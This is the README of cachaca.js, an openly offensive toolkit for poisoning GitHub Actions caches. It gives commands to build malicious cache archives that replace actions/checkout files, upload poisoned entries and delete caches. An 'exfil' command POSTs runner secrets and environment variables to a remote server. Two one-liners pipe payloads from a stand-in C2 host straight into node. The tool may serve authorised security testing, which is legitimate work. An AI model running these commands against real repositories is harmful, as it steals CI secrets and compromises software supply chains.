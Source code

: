 <div align="center">
	:cocktail:
</div>
<h1 align="center">
  cachaca.js
</h1>

<p align="center">
   Some JS file to exploit GitHub action cache poisoning.
</p>

<div align="center">
  <!--<img src="img/cachaca.png"/>-->
</div>

<br />

## Table of Contents

- [Table of Contents](#table-of-contents)
- [Installation](#installation)
- [GitHub action cache poisoning](#github-action-cache-poisoning)
- [Usage](#usage)
  - [cachaca-cli.js](#cachaca-clijs)
    - [Upload](#upload)
    - [Archive](#archive)
    - [list](#list)
    - [delete](#delete)
    - [exfil](#exfil)
  - [cachaca-dumper.js](#cachaca-dumperjs)
  - [cachaca-poisoner.js](#cachaca-poisonerjs)
- [Acknowledgements](#acknowledgements)


## Installation

```
$ git clone https://github.com/Hug0Vincent/cachaca.js.git
$ cd cachaca.js
$ npm i
```

To build all the scripts:
```
$ npm run build
```

## GitHub action cache poisoning

> when a workflow checked out and ran user-controlled code, but only had a ``GITHUB_TOKEN`` with read access and no secrets [...] There is a way to escalate by smashing caches.

This attack vector was originaly found by [@adnanthekhan](https://twitter.com/adnanthekhan), you can read it [here](https://adnanthekhan.com/2024/05/06/the-monsters-in-your-build-cache-github-actions-cache-poisoning/) and [here](https://adnanthekhan.com/2024/12/21/cacheract-the-monster-in-your-build-cache/).

This project includes JS scripts designed to exploit GitHub Actions's cache mechanism. To use them, you must be able to execute arbitrary commands within a workflow running on the default branch.

## Usage

### cachaca-cli.js

```
$ node dist/cachaca-cli.js
Usage: cachaca.js [options] [command]

CLI tool for exploiting GitHub action's cache.

Options:
  -V, --version      output the version number
  -h, --help         display help for command

Commands:
  upload [options]   Upload a cache entry to GitHub.
  archive [options]  Build a cache archive.
  list [options]     List all cache entries for a repository
  delete [options]   Delete a specific cache entry
  exfil [options]    Send secrets to a remote server.
  help [command]     display help for command

```

#### Upload

The upload command can be used to upload a ``zstd`` archive to GitHub. It should be run from a runner:

```
$ node dist/cachaca-cli.js upload -k cache_key -v node_modules -u https://127.0.0.1/mycache.zstd
```

> [!NOTE] 
> You can specify the version as a path (or multiple paths separated by commas). If you do, the tool will automatically resolve the actual version for you.

```
Usage: cachaca.js upload [options]

Upload a cache entry to GitHub.

Options:
  -k, --key <key>          Cache key
  -v, --version <version>  Cache version
  -f, --file <path>        Path to the local artifact file
  -u, --url <url>          URL of the remote artifact file
  -t, --token <token>      GitHub token
  -h, --help               display help for command
```

> [!NOTE] 
> You can execute it independently of a runner by supplying a cached JWT. However, you won’t be able to upload an archive if the workflow that provided the JWT has already terminated.

#### Archive

This command can be used to build malicious ``zstd`` archives:

```
$ node dist/cachaca-cli.js archive -z mycache.zstd -a ./assets/action_checkout.yml -r /home/runner/work/_actions/actions/checkout/v4/action.yml
$ node dist/cachaca-cli.js archive -z mycache.zstd -a ./dist/cachaca-dumper.js -r /home/runner/work/_actions/actions/checkout/v4/dist/cachaca-dumper.js
📦 building archive: mycache.zstd
✅ Archive updated.
📄 Archive entries:
	- /home/runner/work/_actions/actions/checkout/v4/action.yml
	- /home/runner/work/_actions/actions/checkout/v4/dist/cachaca-dumper.js

```

```
Usage: cachaca.js archive [options]

Build a cache archive.

Options:
  -z, --zstd <path>          Path for the archive file
  -a, --add <path>           Source file or directory to archive
  -r, --rename <name>        Rename file in archive.
  -l, --leading-path <path>  Leading path in the archive (default: "")
  --list                     List archive content.
  -h, --help                 display help for command

```

#### list

This command is used to list cache entries from a repo:

```
$ node dist/cachaca-cli.js  list -o actions -r runner                                                                                     26.15% 2/9GB 
Cache entries:
- Key: Linux-nuget-86355ad7f28c3580457d8ef5b7f66a402201c7c7abb60add09b887f3512d907e, Version: 8c75eb08de5d59433e0e9b6619bc4f318fdc1c66a7b9ee1589973a6c37f2b874, Ref: refs/heads/main, Size: 1737918364 bytes
- Key: Linux-nuget-d6dfc31d4d2f6ebf6a2ed39484c617033ba83fe3a0919004cd7fd1219228cf2d, Version: 8c75eb08de5d59433e0e9b6619bc4f318fdc1c66a7b9ee1589973a6c37f2b874, Ref: refs/heads/dependabot/nuget/src/Sdk/main/Azure.Storage.Blobs-12.25.1, Size: 2610626989 bytes
```

#### delete

This command is used to remove a cache entry from a repo.

```
$ node dist/cachaca-cli.js  delete -o org -r repo -t $GHP -k cache_key -v cache_version
```

> [!IMPORTANT]  
> You need to provide a token with the ``actions: write`` permission.

#### exfil

This command extracts the GitHub secrets passed to the runner, along with the current environment variables, and sends them as a JSON payload via a POST request to a remote server. It must be executed within a runner.

```
$ node dist/cachaca-cli.js exfil -u https://127.0.0.1
```

### cachaca-dumper.js

Single script that perform the same operation as the ``exfil`` command. The URL is embedded at build time. It can be used from a command injection inside a runner:

```
$ curl -k https://c2.tld/cachaca-dumper.js | node
```

To configure it edit the ``dumperExfilUrl`` value in [config.json](config.json).

### cachaca-poisoner.js

Single script that perform the same operation as the ``upload`` command. The arguments are embedded at build time. It can be used from a command injection inside a runner:

```
$ curl -k https://c2.tld/cachaca-poisoner.js | node
```

To configure it edit the values in [config.json](config.json).

``poisonerFetchMode`` can be ``url`` / ``file`` / ``embedded``. In any case ``poisonerFetchModeValue`` will contain the associated value wich would be an URL or a file path. In the ``embedded`` case the file will be staticaly added to ``cachaca-poisoner.js``.

``poisonerCacheVersion`` must contain the full version or the value of the ``path`` in the ``restore`` action:

```yml
-   name: cache
    uses: actions/cache/restore@v4
    with:
        path: node_modules/
        key: npm-test
```

Here is a config example:

```json
{
    "dumperExfilUrl":"https://127.0.0.1/",
    "poisonerFetchMode":"url",
    "poisonerFetchModeValue":"http://127.0.0.1/custom_cache.zstd",
    "poisonerCacheKey": "npm-test",
    "poisonerCacheVersion": "node_modules/"
}
```

## Acknowledgements

- [@adnanthekhan](https://twitter.com/adnanthekhan) for the original research and also because portions of this project include code from [Cacheract](https://github.com/AdnaneKhan/Cacheract).